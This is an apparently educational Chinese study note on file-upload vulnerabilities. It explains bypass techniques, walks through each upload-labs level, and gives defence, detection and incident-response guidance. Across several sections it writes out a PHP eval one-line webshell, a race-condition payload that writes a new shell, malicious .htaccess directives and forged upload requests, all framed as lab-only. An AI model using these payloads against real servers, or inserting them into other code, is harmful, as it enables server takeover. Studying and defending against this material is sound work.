


# 文件上传漏洞（File Upload Vulnerability）

> 日期：2026-11-04
> 所属大纲阶段：3. Web 安全
> 参考资料：
> - OWASP《File Upload Cheat Sheet》（Unrestricted File Upload）
> - OWASP Testing Guide v4.2 — Testing for File Upload（WSTG-BUSL-07/04）
> - PortSwigger Web Security Academy — File upload vulnerabilities
> - upload-labs 靶场（github.com/c0ny1/upload-labs）与官方关卡说明
> - PHP 官方手册 — move_uploaded_file / php.ini 文件上传配置
> - Apache / Nginx / IIS 历史解析漏洞公开资料与官方安全公告

---

## 0. 阅读前提与安全红线

- 读者画像：有开发背景，理解 Web 表单上传、`$_FILES`、multipart 编码。
- **本文所有攻击手法与 Webshell 示例仅限本地靶场（upload-labs、DVWA File Upload 模块等授权环境）使用**。向真实系统上传 Webshell 属严重违法行为；文中一句话木马仅以最小可讲解形态出现，用于理解原理与检测。
- 环境：本地 Docker/虚拟机部署的 upload-labs（PHPStudy 类集成环境），Windows 与 Linux 各一套（部分绕过依赖 Windows 文件系统特性）；DVWA v1.9 File Upload 模块。

---

## 1. 攻击面总览：上传漏洞的完整链条

文件上传漏洞不是单一缺陷，而是**「客户端校验 → 服务端校验 → 存储 → 访问」全链条上任意一环失守**的组合结果：



一句话目标：**让一个「服务器可执行代码的文件」落在一个「会被当成代码执行/包含的路径」上**。三个变量：文件内容（马）、文件形态（后缀/类型）、落点（路径/权限）。

---

## 2. 前端 JS 校验绕过

```html
<!-- 典型弱实现：只在前端检查扩展名 -->
<input type="file" onchange="if(!/\.(jpg|png)$/i.test(this.value)) { alert('只能传图片'); this.value=''; }">
```

绕过（仅靶场）：

1. **Burp 拦截改包**：正常选一张 jpg 提交，在 Burp 中改 multipart 里的 filename 为 `shell.php`；
2. 浏览器禁用 JS / 删除 onchange；
3. 先改名过校验再抓包改回。

对应 upload-labs Pass-01。**教训：前端校验只是体验优化，与服务端校验无任何关系**——审计时看到「前端校验 = 防御」的设计直接标缺陷。

---

## 3. 服务端校验（一）：MIME 与魔术字节

### 3.1 Content-Type（MIME）校验及其伪造

```php
// 服务端只检查 $_FILES['file']['type']：
if ($_FILES['file']['type'] !== 'image/jpeg') { die('只允许图片'); }
```

致命点：`type` 来自**请求头 multipart 的 Content-Type 字段，完全由客户端控制**。

```http
-- 仅限靶场：Burp 改包
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg        ← 伪造；正文仍是 PHP 代码

<?php eval($_POST['cmd']); ?>
```

对应 upload-labs Pass-02。**教训：`$_FILES[type]` 是客户端声明，只能当参考，不能当凭证**。

### 3.2 魔术字节（Magic Bytes）校验与图片马

更严格的服务端会读文件头判断真实类型：

```php
// getimagesize / exif_imagetype / fread 前 N 字节
$info = getimagesize($_FILES['file']['tmp_name']);   // 会解析图片头，失败返回 false
```

绕过思路：让文件**同时**是合法图片头 + PHP 代码体（**图片马**）：

```bash
# 方法一：copy /b 二进制拼接（Windows；靶场机执行）
copy /b normal.jpg + shell.php muma.jpg

# 方法二：文本编辑器直接在图片头前加魔术字节
#   JPEG: FF D8 FF        PNG: 89 50 4E 47        GIF: GIF89a（ASCII 可直接打）
GIF89a
<?php eval($_POST['cmd']); ?>
```

注意：图片马本身**不会执行**——`muma.jpg` 被 Web 服务器当静态文件返回，PHP 代码只是被当作字节。它需要第二个条件：**该文件被以 PHP 解析**（配合解析漏洞/`.htaccess`/文件包含漏洞，见 §5、§6、Pass-13~15）。

**检测视角**：防御端读魔术字节时要意识到「头合法 ≠ 内容无害」；真正可靠的是服务端**重新渲染**（见 §11）。

---

## 4. 服务端校验（二）：黑名单绕过

### 4.1 黑名单的先天缺陷

黑名单只挡「已知危险项」，每一条绕过都是一次真实事故沉淀：

| 绕过 | 原理 | 示例 |
|------|------|------|
| 大小写 | 黑名单比较未统一大小写 | `shell.PHp`（Windows 大小写不敏感 + 黑名单只匹配小写） |
| 尾部空格 | Windows 保存时剥尾部空格，黑名单匹配 `php` 失败 | `"shell.php "` |
| 尾部点 | Windows 不允许以点结尾，自动剥落 | `"shell.php."` |
| `::$DATA` | Windows NTFS 附加数据流，保存后实际文件为 `shell.php` | `"shell.php::$DATA"` |
| 点+空格组合 | `trim('. ')` 只剥一层 | `"shell.php. ."` 类形态（Windows 最终落成 `shell.php.`→`shell.php`） |
| **双写** | `str_replace` 非递归，`pphphp` 替换掉中间 `php` 后剩 `php` | `"shell.pphphp"` |
| 特殊可解析后缀 | Apache/Nginx 配置常把 php3/php4/php5/phtml/pht 解析为 PHP | `shell.phtml`（黑名单只列了 `php`） |
| `.htaccess`/`.user.ini` | 黑名单漏掉「配置文件」这类非代码但能改变解析规则的文件 | 见 §6 |

> 前四条（空格/点/::$DATA）是 **Windows 文件系统特有**；Linux 上是普通文件名的一部分——靶场通关前先看服务器 OS。

### 4.2 %00 截断（历史漏洞，仍在老系统出现）

条件：PHP < 5.3.4 且 `magic_quotes_gpc` 关闭。路径拼接处 `%00` 之后内容被截断：

```text
GET save_path=../upload/shell.php%00&filename=shell.jpg
→ 服务器最终路径: ../upload/shell.php（%00 截断了后面的 .jpg）
POST 场景需在二进制中写 \x00（Burp Repeater 的 hex 视图改）
```

对应 upload-labs Pass-11/12。本质是 C 语言字符串以 `\0` 结尾的历史包袱，**修复靠升级 PHP 版本**，但审计老系统时仍是必修项。

---

## 5. 解析漏洞：文件「对」了还要「解析」对

### 5.1 Apache 多后缀解析（AddHandler）

历史配置：

```apache
AddHandler application/x-httpd-php .php
```

Apache 对文件名**从右往左**识别后缀，遇到认识的模块后缀即交给该模块处理：

```text
请求 /upload/shell.php.xxx
xxx 不认识 → 往左找 → php 认识 → 整个文件按 PHP 解析 → 图片马复活
```

现代配置用 `<FilesMatch \.php$>` 锚定结尾，该问题基本绝迹；靶场与老旧主机仍常见。

### 5.2 Nginx 路径信息解析漏洞（php-fpm fix_pathinfo）

```text
请求: http://target-lab/upload/muma.jpg/1.php
（muma.jpg 是图片马，/1.php 不存在）
```

原理：Nginx 把 `*.php` 通过 FastCGI 转给 php-fpm；`cgi.fix_pathinfo=1`（历史默认）使 PHP 在脚本不存在时**向上回溯**寻找可执行文件：`/upload/muma.jpg/1.php` 不存在 → 退到 `/upload/muma.jpg` → 以 PHP 执行它 → 图片马执行。

修复：`cgi.fix_pathinfo=0`；或在 Nginx 配置中 `try_files $fastcgi_script_name =404;`（确认文件存在才转发）。

### 5.3 IIS 历史解析漏洞（6.0 时代）

| 漏洞 | 形态 |
|------|------|
| 目录解析 | `/xxx.asp/任意.jpg` → asp 目录下任意文件按 ASP 执行 |
| 分号截断 | `shell.asp;.jpg` → IIS 6.0 以 `.asp` 解析（分号后忽略） |
| PUT 上传 | WebDAV 开启 + 弱权限直接 PUT 文件（历史名场面） |

仅作为历史知识储备（等保/老系统仍能遇到），现代 IIS 已不受影响。

---

## 6. .htaccess 上传利用（仅靶场）

黑名单拦了所有 PHP 后缀，却没拦 `.htaccess`（Apache 目录级配置文件）——上传它等于**改写目录解析规则**：

```apache
# muma.htaccess（仅限靶场）—— 方式一：把 jpg 当 php
AddType application/x-httpd-php .jpg
# 随后上传 pic.jpg（内容为 PHP 代码）→ 以 PHP 执行

# 方式二：任意文件前置执行（php_value auto_prepend_file）
php_value auto_prepend_file shell.jpg
# 该目录下任意 php 请求都会先 include shell.jpg

# 方式三：php 伪协议配合（前提：php.ini 中 allow_url_include=On——该选项默认关闭，
#         仅老版本靶场环境才有此路；现代版本默认关闭使 php://input 无法被 include）
php_value auto_prepend_file "php://input"
# 配合 POST body 传 PHP 代码（enctype=multipart 时失效）
```

同类：PHP 的 **`.user.ini`**（CGI/FastCGI 模式下目录级 php.ini，`auto_prepend_file=shell.jpg` 后等任意 php 页面访问触发）。

**防御视角**：存储目录必须禁 `.htaccess` 生效（`AllowOverride None`）、上传目录只读静态服务、拒绝一切非内容扩展名（含 `.ini/.htaccess/.config`）。

---

## 7. 条件竞争上传（Race Condition）

服务端逻辑：`move_uploaded_file()` **先落盘** → 再检查 → 不合格 `unlink()` 删除。

```text
时间线：
t1  上传成功落盘 /upload/shell.php   ← 文件短暂存在！
t2  服务端执行删除
利用：在 t1~t2 的窗口内高频访问该文件，命中即执行
```

利用形态（仅靶场，upload-labs Pass-17/18）：一边脚本并发狂上传，一边并发请求 `upload/shell.php`。竞争窗口小，payload 要「一次命中就写新马」：

```php
<?php fputs(fopen('real.php','w'),'<?php eval($_POST[cmd]);?>');?>
```

**防御**：校验必须发生在**落盘之前**（校验临时文件）；或落盘到「不可执行 + 随机名」目录再审核转存。

---

## 8. 路径穿越保存与边界问题

### 8.1 路径穿越（Path Traversal）

```http
filename="../../public_html/shell.php"     ← 拼接后逃出上传目录
filename="..\\..\\web\\shell.php"          ← Windows 反斜杠
```

服务端 `move_uploaded_file($tmp, $dir . $_FILES['file']['name'])` 直接用客户端文件名即中招。修复：`basename()` + 白名单随机新名（服务端完全丢弃客户端文件名）。

### 8.2 分块/大文件边界

- 分片上传（`chunk index`、`uuid` 参数）：若分片索引未校验，可覆盖他人分片或拼接穿越；
- 断点续传的「临时文件名可控」导致覆盖任意文件；
- 超大文件/边界：`Content-Length` 与实际长度不符、multipart 边界伪造造成解析差异（服务端与 WAF 对同一请求理解不一致）；
- zip 解压类（导入功能）：**Zip Slip**（压缩包内路径 `../../`，解压即穿越）。

审计要点：所有「文件名、路径、分片号」都来自客户端的字段是否参与了文件系统操作。

---

## 9. 图片二次渲染与绕过思路

**二次渲染（Server-side Re-rendering）**：服务端把上传的图片用 GD/IM 加载后**重新生成**再存储（`imagecreatefromjpeg` → `imagejpeg`）。原图中被注入的代码会被丢弃（渲染只保留图像数据）。

```php
// 防御示例
$img = @imagecreatefromjpeg($_FILES['file']['tmp_name']);
if (!$img) die('not image');
imagejpeg($img, $newPath . bin2hex(random_bytes(8)) . '.jpg');   // 重编码存储
```

绕过思路（攻防认知，仅靶场，upload-labs Pass-16）：

- GIF：寻找**渲染前后不变的字节区域**（如部分调色板/注释区），把代码嵌进去（对比渲染前后二进制 diff 找不变区）；
- PNG/JPG：难度更高，依赖格式细节（IDAT 数据块/填充区），历史上存在专门工具思路；
- 本质：找「重编码不会触碰的数据区」。

防御结论：二次渲染后仍要随机重命名 + 不可执行目录 + 尽量交给专业图像库并保持更新。

---

## 10. Webshell 原理与检测视角

### 10.1 一句话木马

```php
<?php eval($_POST['cmd']); ?>        <!-- 仅限靶场演示 -->
```

原理：`eval()` 把字符串当 **PHP 代码**执行；参数来自 POST 完全可控 → 攻击者每次请求都动态提交任意 PHP 逻辑（列目录/读文件/连接数据库）。为什么危险：

1. **体积极小**（<30 字节），绕过基于「文件特征/大小」的检测；
2. 流量在 POST 参数里，内容动态加密/编码空间大；
3. 不落盘也可通过包含、日志、session 临时注入等「无文件马」形态存在。

### 10.2 管理工具与通信特征（检测视角）

| 工具 | 通信特征（用于 IDS/日志检测） |
|------|------------------------------|
| **中国菜刀（China Chopper）** | 明文/简单编码 POST，`z0` 等固定参数名；UA 常为 `Mozilla/4.0`；请求体含 `eval`/`base64_decode` 特征串 |
| **蚁剑（AntSword）** | 默认 base64 传参；URL 编码特征（如 `cmd=@ini_set` 前缀）；响应体结构固定；插件流量可再变形 |
| **冰蝎（Behinder）** | AES 加密流量（密钥源于 shell 内固定 key，可被流量侧解密检测）；请求体为随机性高的二进制；早期版本 Content-Length 特征与固定 UA |
| 哥斯拉（Godzilla） | 加密流 + 强随机；慢速交互特征 |

蓝队要点：**固定密钥的加密马可解密检测**（冰蝎默认 key 公开）；更普适的是「上传后短时间高频 POST 同一 URL + 响应大小/时间分布」的行为模型。

### 10.3 Webshell 排查（应急视角）

```text
静态：
  1. 关键函数/模式扫描：eval、assert、system、passthru、shell_exec、
     base64_decode(gzinflate(  、${} 变量函数、`preg_replace /e`、create_function
  2. 元特征：最近新增/修改的 .php 文件（find -mtime）、
     与目录中其他文件权限/时间戳不一致的「孤儿文件」
  3. 文件名异常：随机串.php、合法图片目录里的脚本文件、.htaccess/.user.ini 异常
  4. 专用工具交叉（河马/D盾/长亭类，原理同上）

动态/行为：
  5. 进程树：php-fpm 子进程 spawn 外部命令（whoami/ipconfig/net user）
  6. 日志：见 §13
```

---

## 11. 防御专章（重点）

防御金字塔——每一层独立失效时仍有下一层：



### 11.1 校验三因子（全部服务端、全部在落盘前）

```python
# 示意：安全上传管线（IO 相关函数为占位实现，核心在校验顺序与分层逻辑）
import secrets
from pathlib import Path

UPLOAD_DIR = Path("/srv/uploads")            # 固定目录，磁盘文件名由服务端生成

ALLOWED = {                                   # dict of dicts：扩展名 → 规则（MIME / 魔术字节 / 是否重渲染）
    ".jpg": {"mime": "image/jpeg", "magic": [b"\xff\xd8\xff"], "render": True},
    ".png": {"mime": "image/png",  "magic": [b"\x89PNG"],      "render": True},
}

class Reject(Exception):
    """上传被拒（业务异常）"""

def pure_ext(client_name: str) -> str:        # 去掉路径后取最后一个点之后的扩展名，统一小写
    name = client_name.replace("\\", "/").rsplit("/", 1)[-1]
    return "." + name.rsplit(".", 1)[-1].lower() if "." in name else ""

def sniff_content(data: bytes) -> str:        # 魔术字节嗅探（不是信 Content-Type 头）
    for rule in ALLOWED.values():
        if data.startswith(rule["magic"][0]):
            return rule["mime"]
    return "application/octet-stream"

def safe_reencode(data: bytes, ext: str) -> bytes:
    return data                               # 占位：生产实现应交给 Pillow/GD 重编码后返回（见 §9）
def virus_scan(path: Path) -> None:
    ...                                       # 占位：ClamAV 等异步扫描，阳性即删

def save_upload(client_name: str, data: bytes) -> None:
    ext = pure_ext(client_name)                            # ① 后缀白名单（服务端判断）
    rule = ALLOWED.get(ext)
    if rule is None:
        raise Reject("extension not allowed")
    mime = sniff_content(data)                             # ② 魔术字节嗅探结果须与该扩展名的规则一致
    if mime != rule["mime"]:
        raise Reject("ext/mime/magic mismatch")            #    扩展名 / MIME / 魔数三因子一致性校验
    new_name = secrets.token_hex(16) + ext                 # ③ 随机重命名，彻底丢弃客户端文件名
    path = UPLOAD_DIR / new_name                           #    固定目录拼接，无客户端路径段
    if rule["render"]:
        data = safe_reencode(data, ext)                    # ④ 图片二次渲染
    path.write_bytes(data)
    virus_scan(path)                                       # ⑤ ClamAV 等异步扫描，阳性即删
```

要点：白名单（不是黑名单）；扩展名与内容嗅探**双因子一致**；一切校验在 `move` 之前（防条件竞争）。

### 11.2 存储：随机名 + 独立域 + 无执行

- **随机名 + 固定扩展**：客户端文件名只配进数据库做显示名，磁盘名永远是 `随机串.jpg`；
- **独立存储域**：上传文件放在与主站**不同域**（如 `static-files.example-cdn.com`），即使内容可执行，浏览器同源策略 + 该域「纯静态无脚本」配置使它天然无害：

```nginx
# 上传目录（独立域/独立 server 块）—— 禁执行、禁列表、强制下载
location /uploads/ {
    add_header Content-Disposition attachment;         # 浏览器下载而非渲染（HTML/-svg 场景）
    add_header X-Content-Type-Options nosniff;         # 禁 MIME 嗅探
    default_type application/octet-stream;
}
# 若同域托管：所有 *.php 转发规则绝不覆盖 /uploads/，并且该目录禁 .htaccess（AllowOverride None）
```

- **对象存储/CDN 隔离**：现代架构首选——上传直传 S3/OSS 预签名 URL，文件不经过应用服务器磁盘；CDN 回源只回存储桶；存储桶本身无执行语义，权限最小化（无 ListBucket、私有桶+签名 URL）。

### 11.3 附加措施

| 措施 | 针对的威胁 |
|------|-----------|
| 病毒扫描（ClamAV 异步，阳性隔离+告警） | 恶意文件分发（病毒/勒索样本） |
| `Content-Disposition: attachment` + `nosniff` | 上传 HTML/SVG 的存储型 XSS/钓鱼（SVG 可含 script） |
| SVG 按需净化或禁传 | SVG 内嵌 `<script>` 与外链资源 |
| 大小/频率限制、分片一致性校验 | DoS、分片穿越/覆盖 |
| zip 解压逐条 basename + 总量上限 | Zip Slip |
| 图片重渲染 | 图片马（§9） |
| WAF 上传检测（multipart 中的特征：`<?php`、`eval(`、已知马 hash） | 批量工具/已知样本（纵深，不作为主力） |

### 11.4 防御检查清单

- [ ] 上传校验 100% 在服务端；前端校验仅体验
- [ ] 后缀白名单 + Content-Type **不作为依据** + 魔术字节嗅探三因子一致
- [ ] 服务端随机重命名，磁盘不出现任何客户端可控文件名/路径段
- [ ] 上传目录：独立域/对象存储，无脚本执行，`AllowOverride None`
- [ ] 图片走二次渲染；SVG/HTML 类默认下载 + nosniff
- [ ] 校验在落盘前完成（防条件竞争）；临时文件不可被 Web 访问
- [ ] 病毒扫描 + 大小/频率限制 + 解压路径校验
- [ ] WAF/日志：multipart 内容检测、上传行为留存（时间、账号、hash）

---

## 12. upload-labs 通关思路总表（Pass 01–20）

> 说明：不同发行版关卡顺序略有差异，下表为通行版本的考点归纳；实验时以本地部署版本的源码为准，**通关前先读关卡通关提示与源码**。全部操作仅限本地靶场。

| 关卡 | 考点（一句话） | 思路速记 |
|------|----------------|----------|
| Pass-01 | 前端 JS 校验 | Burp 抓包改 filename 后缀 |
| Pass-02 | MIME（Content-Type）校验 | 改 multipart 的 Content-Type 为 image/jpeg |
| Pass-03 | 黑名单漏特殊后缀 | php 被禁 → 用 `.php5`/`.phtml`（需 Apache 配置支持） |
| Pass-04 | 黑名单几乎全 + 漏配置文件 | 传 `.htaccess` 让 jpg 按 php 解析 |
| Pass-05 | 黑名单大小写敏感 | `shell.PHp` |
| Pass-06 | 黑名单 + Windows | `"shell.php "`（尾空格） |
| Pass-07 | 黑名单 + Windows | `"shell.php."`（尾点） |
| Pass-08 | 黑名单 + Windows NTFS | `"shell.php::$DATA"` |
| Pass-09 | 组合绕过 | `"shell.php. ."` 类点空格点（Windows 剥落后剩 .php.） |
| Pass-10 | `str_replace` 非递归 | 双写 `pphphp` |
| Pass-11 | 白名单 + 路径可控（GET） | `save_path=../upload/shell.php%00`（%00 截断） |
| Pass-12 | 白名单 + 路径可控（POST） | 同上，但需 Burp hex 模式写二进制 `\x00` |
| Pass-13 | 文件头校验 | 图片马（GIF89a 头）+ 需文件包含/解析漏洞执行 |
| Pass-14 | `getimagesize` | 同图片马（13–15 三关均为图片马，差异在检查函数） |
| Pass-15 | `exif_imagetype` | 同图片马 |
| Pass-16 | **二次渲染** | GIF 找渲染不变区嵌代码（对比渲染前后 diff） |
| Pass-17 | 条件竞争（先落盘后删除） | 并发上传 + 并发访问，马内再写新马 |
| Pass-18 | 条件竞争（rename 型实现） | 同竞争思路，时机点不同 |
| Pass-19 | 保存名可控 + `pathinfo` | 利用 `move_uploaded_file` 特性：文件名带 `/.` 截断或点/空格（随实现） |
| Pass-20 | **数组参数绕过** | `save_name[0]=shell.php&save_name[1]=jpg`——end() 校验末项过白名单，实际保存取首项 |

通关方法论（比逐关答案更重要）：

```text
1. 先判断服务器 OS/中间件/PHP 版本（决定空格/点/::$DATA、%00、解析漏洞是否可用）
2. 读源码：找校验点（前端？后缀？MIME？内容？）→ 判断黑/白名单 → 找漏项
3. 判断"执行条件"：上传成功≠拿 shell，还要有解析路径（同目录 php/包含/解析漏洞）
4. 每关写一行复盘：校验缺陷是什么、正确修法是什么（对照 §11）
```

---

## 13. 检测与应急

### 13.1 日志中的上传攻击特征

```text
# Web/中间件访问日志
POST /upload/action.php  — multipart 中含 <?php / eval( / system( 特征（需 WAF/审计组件解析 body）
filename 形态异常：\.\./、%00、::$DATA、.phtml、.htaccess、双写后缀、
  Content-Type: image/jpeg 但内容含 "<?php"
同一接口高频上传 + 高频访问新路径（条件竞争指纹：上传与 GET 交错爆发）

# 上传成功后的 webshell 行为（最直接的失陷信号）
对非常规路径（/uploads/xxx.php）的持续 POST，响应时间与大小分布离散
POST 参数中出现 base64/gzinflate/AES 二进制大块
上传目录下文件在「无请求」时段被修改（find -mmin 比对）
进程树：web 服务用户 spawn sh/cmd/whoami/net user
```

### 13.2 告警与巡检常态化

- WAF/审计设备开启 multipart body 检测规则（文件上传类规则集）；
- 上传目录文件完整性巡检：新文件 hash 留存，脚本类扩展名出现即告警；
- 云函数/对象存储事件（新对象创建 → 触发病毒扫描与内容检查）；
- EDR 侧：Web 进程的子进程外联行为告警。

### 13.3 应急流程（发现 Webshell 后）

```text
1. 隔离不删除：先摘流量（WAF/负载均衡下线该目录或整站），
   保持现场——文件时间戳、同目录隐藏马、.htaccess/.user.ini
2. 取证保全：打包上传目录（含隐藏文件）、Web/系统/安全日志快照、内存（如条件）
3. 扩面排查：
   - 全盘 Webshell 扫描（静态特征 + 时间线异常文件）
   - 上传链路日志回溯：该马何时、由哪个账号上传、来源 IP
   - 检查是否横向：Web 用户 crontab、ssh key、新增账户、外联记录
4. 根修：按 §11 清单逐项整改（多数事故是「目录可执行 + 黑名单」双失守）
5. 轮换凭据：数据库/配置文件中可达的一切密钥
6. 复盘：为什么校验没拦住？为什么目录可执行？补上传管线测试用例
```

---

## 14. 常见误区

| 误区 | 事实 |
|------|------|
| 「前端做了文件类型校验」 | 客户端一切皆可改（Burp 一改全过） |
| 「检查了 Content-Type 就安全」 | Content-Type 是客户端声明，随手伪造 |
| 「图片头检查（getimagesize）很稳」 | 图片马让「头合法 + 体带马」共存 |
| 「黑名单把 php 拉黑了」 | phtml/php5/htaccess/大小写/双写/Windows 特性——黑名单天然漏 |
| 「文件传到了但目录不可执行，白传了？」 | 还可配合文件包含、CSRF 钓鱼页、SVG XSS 等二次利用 |
| 「重命名成随机名就能防执行」 | 若目录仍可执行 + 校验可绕（黑名单），改名后照样解析 |
| 「大厂 CDN/对象存储自动解决一切」 | 仍需私有桶、最小权限、nosniff、下载头；配置错误照样翻车 |
| 「Webshell 扫过一次没事」 | 无文件马、加密马、合法函数组合马层出不穷，行为侧监控不可省 |
| 「%00 截断是老古董不用学」 | 老系统/低版本 PHP 存量仍在，审计必备认知 |

---

## 15. 自测问题

1. 上传漏洞的完整攻击链四个环节是什么？为什么说「校验、存储、解析」三处都要设防？
2. Content-Type 校验为什么不可靠？服务端正确的内容校验方式是什么？
3. 什么是图片马？图片马单独存在为什么不执行？说出至少两种让它执行的条件。
4. 黑名单绕过中哪些依赖 Windows 文件系统特性？为什么 Linux 上无效？
5. `%00` 截断的成立条件（PHP 版本与配置）是什么？根修手段是什么？
6. 描述 Nginx `fix_pathinfo` 解析漏洞的完整请求路径与两处修复配置。
7. `.htaccess` 上传如何让 `.jpg` 以 PHP 执行？对应的服务器层防御配置是什么？
8. 条件竞争上传的漏洞代码模式是什么？「校验在落盘前」如何根治？
9. 二次渲染为什么能杀图片马？GIF 的绕过思路基于什么特性？
10. 从检测视角说出菜刀/蚁剑/冰蝎各两条通信特征。
11. 一句话木马 `<?php eval($_POST['cmd']); ?>` 为什么危险？给出静态/动态各两种排查手段。
12. 设计题：为「用户头像上传」写出完整安全方案（校验三因子 + 随机名 + 独立域 + 下载头 + 重渲染 + 病毒扫描），并说明每层分别针对本文哪个攻击手法。
13. 上机任务：本地 upload-labs 至少完成 01–12 关，每关写一行「缺陷 → 修法」复盘；对照本文 §11 清单给自己的方案打分。

---

## 16. 小结

- 上传漏洞 = **校验（黑名单先天残缺）× 存储（穿越/原名/可写）× 解析（目录可执行/解析漏洞/配置文件）** 的组合失守。
- 客户端校验、Content-Type、黑名单、单一 getimagesize 全都不可靠——可靠的是**服务端白名单三因子一致 + 随机重命名 + 独立无执行存储域 + 重渲染 + 病毒扫描**的纵深管线。
- 图片马需要「解析条件」配合：防住了目录执行与包含漏洞，图片马只是张图。
- Webshell 攻防进入「加密流量 + 行为检测」阶段：蓝队靠静态特征 + 时间线异常 + 流量行为模型三层交叉。
- upload-labs 的价值不在通关，而在每关的「缺陷 → 修法」映射——把它当作 §11 防御清单的攻防对照实验场。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「1. 攻击面总览：上传漏洞的完整链条」节 · 四段攻击面链条（各段绕过点注记） | flowchart TD |
| 「11. 防御专章（重点）」节 · 防御金字塔 | flowchart TD |
